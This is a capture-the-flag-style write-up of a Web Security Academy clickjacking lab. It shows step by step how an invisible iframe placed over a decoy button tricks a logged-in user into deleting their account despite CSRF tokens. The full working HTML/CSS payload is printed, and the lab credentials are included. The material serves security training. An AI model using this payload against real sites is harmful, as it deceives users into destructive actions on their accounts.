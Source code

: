# Lab description
Basic clickjacking lab to demonstrate that clickjacking attacks bypass CSRF token protection.

Official lab description:
> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
> You can log in to your own account using the following credentials: `wiener:peter`

# Writeup
Okay, we have to just craft a HTML response of a page that has a button that says "click" and that button has an invisible iframe on top. Let's use the example CSS given in the lab solution, as crafting this would be a lot of time and effort.
This is the example HTML:
```css
<style>
    iframe {
        position:relative;
        width:$MODIFY$;
        height: $MODIFY$;
        opacity: $MODIFY$;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$MODIFY$;
        left:$MODIFY$;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https:/$YOUR_URL$/my-account/delete"></iframe>
```

Let's modify it with the recommended heights for the iframe and div, and put an opacity to make adjustments (**when the attack is crafted, we will put it to an invisible value, but first we have to craft the attack)**, and fulfill the URL with our deletion URL. We know we can't perform a CSRF attack, as there is a CSRF token:
![](imgs/basic_clickjacking_bypassing_csrf_token.png)
Do not send this request, this was just to see that the CSRF token is there. What is important is to have the session up, as we need to be logged in so the iframe captures our cookies and goes to the user deletion panel, mimicking the session of our victim.

We have to change the URL of the invisible iframe so it goes to that endpoint. Let's modify the HTML code of the iframe:
```css
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300;
        left:60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a1c001304c8e8c481b3a7bd009c0016.web-security-academy.net/my-account/delete"></iframe>
```

We have to check whether both things appear in the same position, so I turned the opacity a bit higher to see both elements:
![](imgs/basic_clickjacking_bypassing_csrf_token-1.png)

They are displaced. They need to match, so let's change the height of the visible button:
![](imgs/basic_clickjacking_bypassing_csrf_token-2.png)

The final HTML code is the following, with the height changed and with a valid opacity:
```css
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae700810398ec80862e951d00c4004d.web-security-academy.net/my-account"></iframe>
```

The victim will see this page, which seems a normal page:
![](imgs/basic_clickjacking_bypassing_csrf_token-3.png)

But remember that Burp Suite page **is behind.**

Sending this exploit to the victim leads us to the lab completion:
![](imgs/basic_clickjacking_bypassing_csrf_token-4.png)